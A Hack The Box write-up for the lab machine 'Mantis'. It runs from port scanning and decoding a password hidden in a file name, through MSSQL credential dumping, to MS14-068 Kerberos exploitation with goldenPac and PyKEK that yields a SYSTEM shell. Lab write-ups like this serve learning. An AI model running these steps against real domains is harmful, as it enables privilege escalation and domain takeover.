


## Mantis Hackthebox Writeup

1. Service Discovery
2. Ports 8080 and 1337
3. MSSQL Enumeration 
4. MS14-068 with Impacket
5. MS14-068 with PyKEK

### Service Discovery
We start out as usual with a simple nmap scan
```
nmap -v -sC -sV -p- 10.10.10.52
```
And we get a ton of ports open on this box including DNS, SMB, ms-sql, 2 or 3 web servers running IIS, kerberos, ldap and more. So we can see quickly that this is a server 2008 machine which is part of a windows domain and is possibly the domain controller.
```
Not shown: 980 closed ports                        
PORT      STATE SERVICE      VERSION               
53/tcp    open  domain       Microsoft DNS 6.1.7601
| dns-nsid:                                        
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2018-03-14 22:35:52Z)           
135/tcp   open  msrpc        Microsoft Windows RPC         
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                            
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)                                                                                      
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)                                                                                               
464/tcp   open  kpasswd5?                          
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0                                      
636/tcp   open  tcpwrapped                         
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM                             
| ms-sql-ntlm-info:                                
|   Target_Name: HTB                               
|   NetBIOS_Domain_Name: HTB                       
|   NetBIOS_Computer_Name: MANTIS                  
|   DNS_Domain_Name: htb.local                     
|   DNS_Computer_Name: mantis.htb.local            
|_  Product_Version: 6.1.7601   
```
### 8080 and 1337

It also appears to have some web servers running on ports 8080, 1337, and 47001 so lets start checking those out. Ports 47001 and 1337 give us a 404 error and a default IIS page so we move onto 8080 and notice a blog entitled "Tossed Salad"...




No comments in the source, no robots.txt, and it appears to have a bit of default content after a couple of salad tossing posts. We try the login page with admin:admin and some other crap passwords, no dice. So at this point we fire up dirsearch against these web servers while we continue to look around the box.
```
# ~/git/dirsearch/dirsearch.py -u 10.10.10.52:1337 -e php -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 80           

 _|. _ _  _  _  _ _|_    v0.3.8                    
(_||| _) (/_(_|| (_| )                             

Extensions: php | Threads: 80 | Wordlist size: 220521                                                 

Error Log: /root/git/dirsearch/logs/errors-18-03-14_20-40-46.log                                      

Target: 10.10.10.52:1337                           

[20:40:47] Starting:                               
[20:40:47] 200 -  689B  - /                        
[20:41:55] 500 -    3KB - /orchard                                                                    
[20:45:27] 301 -  160B  - /secure_notes  ->  http://10.10.10.52:1337/secure_notes/                                                                                                                                                                                                                                                                                                                                      
```
That looks good a directory named "secure_notes".




We have a web.config that leads to nothing and a dev_notes file with some interesting content about setting up this Tossed Salad blog with its OrchardCMS and MSSQL.
```
root@sushi:~/hackthebox/mantis# curl -i 10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
HTTP/1.1 200 OK
Content-Type: text/plain
Last-Modified: Wed, 13 Sep 2017 21:22:52 GMT
Accept-Ranges: bytes
ETag: "4d6f074d62cd31:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Thu, 15 Mar 2018 01:00:52 GMT
Content-Length: 912

1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format                
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
* Connection #0 to host 10.10.10.52 left intact 
```
At this point we notice the file name ```/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt``` looks rather suspicious and could be base64. We try to check it and see whats up.

```
root@sushi:~# echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d
6d2424716c5f53405f504073735730726421
```
So at first we think that's some kind of hash as it looks like md5, but it doesn't seem to turn up much
```
root@sushi:~# hashid 6d2424716c5f53405f504073735730726421
Analyzing '6d2424716c5f53405f504073735730726421'
[+] Unknown hash
```
Then we realize it starts with m$$ and is hex awesome.
```
root@sushi:~# echo "6d2424716c5f53405f504073735730726421" | xxd -r -ps
m$$ql_S@_P@ssW0rd!
```
### MSSQL Enumeration

Great we have what looks like the sa password or maybe the admin user password from the note, so we check with mssqlclient  and can login with the admin account nice. 
```
root@sushi:~# mssqlclient.py admin@10.10.10.52
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> select name from dbo.sysdatabases
master                                                                                                                            
tempdb                                                                                                                            
model                                                                                                                             
msdb                                                                                                                              
orcharddb                                 
```
We can poke around and check for any usernames in the database.
```
SQL> SELECT COLUMN_NAME 'All_Columns' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='User' 
blog_Orchard_Users_UserPartRecord 
blog_Orchard_Roles_UserRolesPartRecord
                                                                                                                        
SQL> use orcharddb
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.

SQL> SELECT COLUMN_NAME 'All_Columns' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord '
Id                                                                                                                                
UserName                                                                                                                          
Email                                                                                                                             
NormalizedUserName                                                                                                                
Password                                                                                                                          
PasswordFormat                                                                                                                    
HashAlgorithm                                                                                                                     
PasswordSalt                                                                                                                      
RegistrationStatus                                                                                                                
EmailStatus                                                                                                                       
EmailChallengeToken                                                                                                               
CreatedUtc                                                                                                                        
LastLoginUtc                                                                                                                      
LastLogoutUtc         

SQL> select UserName,Password,Email from blog_Orchard_Users_UserPartRecord
admin 
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==

James
J@m3s_P@ssW0rd!
james@htb.local 
```

So we take a wild guess that the James user is a domain account on this box. We cant just psexec onto the machine with his creds, but it does appear to be a valid username and password.
```
root@sushi:~# crackmapexec 10.10.10.52 -d HTB -u james -p J@m3s_P@ssW0rd! --users
CME          10.10.10.52:445 MANTIS          [*] Windows 6.1 Build 7601 (name:MANTIS) (domain:HTB)
CME          10.10.10.52:445 MANTIS          [+] HTB\james:J@m3s_P@ssW0rd! 
CME          10.10.10.52:445 MANTIS          [+] Dumping users
CME          10.10.10.52:445 MANTIS          Administrator (500)/FullName: 
CME          10.10.10.52:445 MANTIS          Administrator (500)/UserComment: 
CME          10.10.10.52:445 MANTIS          Administrator (500)/PrimaryGroupId: 513
CME          10.10.10.52:445 MANTIS          Administrator (500)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          Administrator (500)/LogonCount: 47
CME          10.10.10.52:445 MANTIS          Guest (501)/FullName: 
CME          10.10.10.52:445 MANTIS          Guest (501)/UserComment: 
CME          10.10.10.52:445 MANTIS          Guest (501)/PrimaryGroupId: 514
CME          10.10.10.52:445 MANTIS          Guest (501)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          Guest (501)/LogonCount: 0
CME          10.10.10.52:445 MANTIS          krbtgt (502)/FullName: 
CME          10.10.10.52:445 MANTIS          krbtgt (502)/UserComment: 
CME          10.10.10.52:445 MANTIS          krbtgt (502)/PrimaryGroupId: 513
CME          10.10.10.52:445 MANTIS          krbtgt (502)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          krbtgt (502)/LogonCount: 0
CME          10.10.10.52:445 MANTIS          james (1103)/FullName: James
CME          10.10.10.52:445 MANTIS          james (1103)/UserComment: 
CME          10.10.10.52:445 MANTIS          james (1103)/PrimaryGroupId: 513
CME          10.10.10.52:445 MANTIS          james (1103)/BadPasswordCount: 0
CME          10.10.10.52:445 MANTIS          james (1103)/LogonCount: 26
[*] KTHXBYE!
```
### Impacket MS14-068

Lets try this account with another impacket tool, goldenPac, against the kerberos on this machine. First add these two lines to /etc/hosts
```
10.10.10.52  mantis.htb.local
10.10.10.52  htb.local
```
Then we can just run it for a system shell.
```
root@sushi:~# goldenPac.py htb.local/james@mantis.htb.local
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file cnNMpQyo.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service EWoX on mantis.htb.local.....
[*] Starting service EWoX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### PyKek 

So we can also exploit this Kerberos using PyKEK by Bidord, to start make sure this is in /etc/hosts
```
10.10.10.52 mantis.htb.local
10.10.10.52 htb.local
```

And this in /etc/resolv.conf
```
nameserver 10.10.10.52
```

Then we get James's SID with rpcclient
```
root@sushi:~#rpcclient -U james 10.10.10.52
Enter james's password: J@m3s_P@ssW0rd!
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103
```
Clone PyKEK, then create the golden ticket and copy it to /tmp
```
root@sushi:~# git clone https://github.com/bidord/pykek && cd pykek
root@sushi:~# python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
Password:J@m3s_P@ssW0rd!

root@sushi:~# cp TGT_james@htb.local.ccache /tmp/krb5cc_$(echo $UID)
```

Then connect as system with smbclient
```
root@sushi:~# smbclient -k -U james \\\\mantis.htb.local\\C$

OS=[Windows Server 2008 R2 Standard 7601 Service Pack 1] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \> more \USERS\Administrator\DESKTOP\root.txt
---redacted---
```

The box may have been patched as the James user was able to just psexec onto the machine for a system shell before it was retired which was an unintented method for this one. Some further reading:

http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html

https://www.trustedsec.com/2014/12/ms14-068-full-compromise-step-step/

Thanks to Hackthebox.eu for all the great machines, and lkys37en for creating this one was a fun time.
